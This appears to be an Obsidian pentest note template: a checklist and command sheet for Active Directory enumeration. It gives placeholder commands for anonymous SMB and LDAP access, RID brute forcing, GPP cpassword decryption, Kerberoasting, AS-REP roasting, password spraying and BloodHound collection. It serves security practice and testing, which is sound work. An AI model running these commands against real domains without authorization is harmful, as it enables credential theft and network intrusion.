 ```yaml
---
icon: 🗒
target:
- ""
createdAt: "{{DATE}}"
imageNameKey: nota_<% tp.file.title.split(" ").join("_").toLowerCase() %>
tags: 
NoteRel:
---
```

# AD Enum
- [ ] Verify Guest User in SMB
- [ ] Verify SMB shares READ/WRITE
- [ ] Search by GPP passwords
- [ ] LDAP Anonymous Bind
- [ ] Kerberoasting
- [ ] ASP-REP Roasting

## 🧠 Things to check after enumeration
- [ ] Is there a user with an SPN that is not `krbtgt`?
- [ ] Is there a user without pre-authentication (vulnerable to AS-REP)?
- [ ] GPP with password?
- [ ] Any share with write permissions?
- [ ] Any interesting groups (Domain Admins, Backup Operators)?
- [ ] Did you enumerate Trusts or multiple domains?
- [ ] Is DNS pointing to the same host?

## Others
- [ ] Password spraying using the username as the password, in several variations: all lowercase, all uppercase, first letter capitalized, etc.
- [ ] Always test MSSQL access if you have user credentials, check the note in the other Obsidian.


# Domain
```

```

# No-Login Enumeration

### nmap 
```

```
### enum4linux
```
enum4linux-ng -A <IP>

```


## SMB (445)
- Anonymous access?
- Sensitive file on Shares?
### smbmap 
```
smbmap -H <IP> -u '' -p ''
```

### SMBClient
```
smbclient -L //<IP>/ -N
smbclient //IP/SHARE -N

```

### Rid Bruteforce
```
nxc smb <IP> --rid-brute
```


# Logged Enumeration

## SMB (445)
- Anonymous access?
- Sensitive file on Shares?
```
smbmap -H <IP> -u <user> -p <pass> --shares
smbclient //IP/share -U <user>

```

## GPP Credentials
```
smbclient //IP/SYSVOL -U <user> 

# Navegue para: /Policies/<policy_id>/Machine/Preferences/Groups.xml
# Procure por cpassword

gpp-decrypt <cpassword>
```

## Kerberoasting
```js
GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <IP> -request

```
## ASPRoasting
```js
GetNPUsers.py <domain>/<user>:<pass> -dc-ip <IP> -no-pass

```


## LDAP
- verificar se há alguma senha ou algo parecido com senha em informações de users no LDAP.

```
ldapsearch -x -H ldap://<IP> -D <user>@<domain> -w <pass> -b "dc=dominio,dc=local"
```

## bloodhound

bloodhound-python
```
bloodhound-python -u <user> -p <pass> -d <domain> -dc-ip <IP> -c all
```

nxc
```
 nxc ldap <ip> -u <user> -p <pass> --bloodhound --collection all --dns-server <ip>
```
